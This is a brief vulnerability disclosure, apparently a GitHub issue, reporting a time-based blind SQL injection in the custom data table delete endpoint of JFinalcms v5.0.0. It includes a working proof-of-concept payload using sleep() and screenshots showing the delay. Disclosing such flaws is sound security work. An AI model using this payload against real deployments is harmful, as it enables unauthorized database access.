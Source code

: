 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0


SQL injection exists for custom data tables,url is  /admin/div_data/delete?divId=9


The function is located in, Extended Content - Custom Data

![1](https://github.com/bigbigbigbaby/cms/assets/41852125/689ad6b1-c1bd-41f3-b4bf-645183774ad4)



poc：

```
cms_admin where id =20 or sleep(3) #
```
![3](https://github.com/bigbigbigbaby/cms/assets/41852125/49220f83-9cf5-4bd6-a20a-bc7411143518)


Then obtain the corresponding data packet

![1](https://github.com/bigbigbigbaby/cms/assets/41852125/37003e9a-afe0-473d-91fd-29e2a80f8ddd)


5 second delay with injection present

![4](https://github.com/bigbigbigbaby/cms/assets/41852125/bc79b0eb-c959-4ac3-86de-0436aa848861)
